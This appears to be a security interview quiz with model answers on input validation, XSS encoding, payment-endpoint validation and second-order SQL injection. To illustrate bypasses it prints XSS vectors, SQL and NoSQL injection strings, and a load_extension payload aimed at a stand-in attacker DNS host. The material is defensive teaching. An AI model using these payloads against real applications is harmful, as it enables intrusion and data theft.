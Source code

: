# 🧪 Subtopic Quiz — 1.01.1 Input Validation Fundamentals

This file contains real-world interview questions and finalized answers for this subtopic.

---

### 🧩 Question 1:
**Developer says:**  
"We're validating user input with a regex on the frontend and disallowing angle brackets (`<`, `>`), so XSS isn't a problem."

✅ **Final Answer:**
"This approach is insecure for several reasons:

1. Client-side validation alone is ineffective — it can be bypassed by disabling JS, intercepting requests, or crafting payloads manually.

2. Simple regex filtering based on angle brackets doesn't stop XSS. Attackers can use:
- HTML entities: `&lt;`, `&gt;`
- Alternate tags like `<svg/onload=alert(1)>`
- Event handlers inside allowed tags: `<img src=x onerror=...>`
- JavaScript contexts like `"><script>...</script>`

3. XSS defenses must be context-aware and server-side:
- Use output encoding based on the injection point (HTML, JS, attribute, etc.)
- Implement Content Security Policy (CSP) to restrict inline script execution
- Use frameworks with built-in escaping (React, Django templates, etc.)


---

### 🧩 Question 2:
**Scenario:**  
You're asked to improve security in a legacy web app vulnerable to both XSS and SQLi. The dev team says they already use basic regex filters to block certain characters.

#### ❓ Questions:
1. Why is encoding as important as input validation?
2. How would you apply context-aware encoding in:
   - HTML body
   - JavaScript context (inline)
   - SQL queries
3. What libraries/tools would you use?

✅ **Final Answer:**

1. **Why encoding is critical:**  
   Input validation attempts to block malicious patterns at entry points but cannot cover every possible payload or bypass technique. Encoding ensures that any untrusted data that reaches the output layer is treated as inert content rather than executable code. It's the last line of defense that neutralizes potentially dangerous characters by converting them into safe equivalents.

2. **Context-aware encoding examples:**
   - **HTML Body:** Encode characters like `<`, `>`, `&`, `"` using HTML entities (e.g., `&lt;`, `&gt;`, `&quot;`) to prevent injection into visible HTML.
   - **JavaScript Context:** Encode `"` as `\x22`, `'` as `\x27`, and escape newlines, backslashes, etc., to prevent breaking out of strings or executing scripts.
   - **SQL Queries:** Use parameterized queries (e.g., `?` placeholders in SQL libraries) rather than trying to encode input manually, which is error-prone.

3. **Recommended Libraries/Tools:**
   - **HTML/JS Encoding:** OWASP Java Encoder (Java), Microsoft AntiXSS (C#), `html-escape` in Python, or templating engines like React/Vue (auto-escape).
   - **SQL Injection Prevention:** Use parameterized queries in libraries like `pg` (PostgreSQL for Node.js), SQLAlchemy (Python), Hibernate (Java), etc.

---

### 🧩 Question 3:
**Scenario:**  
You’re testing a payment endpoint that expects this JSON:
```json
{
  "amount": 100,
  "userId": "user_123"
}
```
The backend is written in a dynamically typed language like Python or JavaScript.

#### ❓ Questions:
1. What types of validation should be enforced on each field?
2. What kinds of attacks could occur if this validation is missing?
3. How would you structure validation logic in a secure backend?

✅ **Final Answer:**

1. **Field-Level Validation:**

   - `amount`:
     - Must be a positive number (no negative or zero)
     - Type check: integer or float
     - Max cap to prevent overflow (e.g., 100000)
   - `userId`:
     - Must match regex like `^user_\d+$`
     - Length-limited (e.g., ≤32 characters)
     - Only alphanumerics and underscore allowed

2. **Possible Attacks Without Validation:**
   - **Amount tampering:** Sending `-100` or `0.01` through MITM tools like Burp Suite to exploit pricing logic
   - **SQL Injection via userId:** e.g., `user_123' OR '1'='1` if string concatenation is used
   - **Type confusion:** Passing objects or booleans instead of expected primitives (e.g., `userId: { "$gt": "" }`)

3. **Secure Backend Validation Workflow:**
   - ✅ **Schema Validation Layer:** Use tools like Joi, zod, or Pydantic to validate input shape, types, and patterns
   - ✅ **Business Logic Validation:** Check price boundaries, enforce discounts on backend only, verify user role
   - ✅ **Vulnerability Guardrails:** Use parameterized queries, avoid string-based DB access, sanitize logs

   Example (Node.js with pg):
   ```js
   const query = 'SELECT * FROM users WHERE userId = $1';
   const values = [req.body.userId];
   db.query(query, values);
   ```

---

### 🧩 Question 4:
**Scenario:**  
You're reviewing a legacy PHP application where the `bio` field submitted during user signup is stored in the database and later rendered in the admin dashboard. A security test revealed that this `bio` content is reused without revalidation or escaping, and it's also passed into SQL queries indirectly via a cron job.

#### ❓ Questions:
1. What type of injection is this?
2. How would you detect and confirm this vulnerability?
3. What mitigation strategies would you apply?

✅ **Final Answer:**

1. **Type of injection:**  
   This is a **Second-Order SQL Injection**. The malicious input is stored in the database during an initial operation (e.g., signup) but the injection occurs later when that data is reused in a different context (e.g., cron job or admin view) without proper sanitization or escaping.

2. **Detection and confirmation:**
   - Insert a payload like `' ; SELECT load_extension('\\\\attacker.dnslog.domain\\abc');--` in the `bio` field during signup.
   - Monitor for delayed SQL execution or out-of-band interactions when the admin dashboard or cron job processes the data.
   - Tools like Burp Collaborator, DNS logs, or backend logs can help confirm this behavior.

3. **Mitigation:**
   - Always validate and sanitize inputs both on entry and before reuse.
   - Apply parameterized queries during *every* database interaction, not just at insertion.
   - Avoid dynamic query construction using previously stored user inputs.
   - Use logging and alerting to detect suspicious behavior or unexpected outbound requests from internal systems.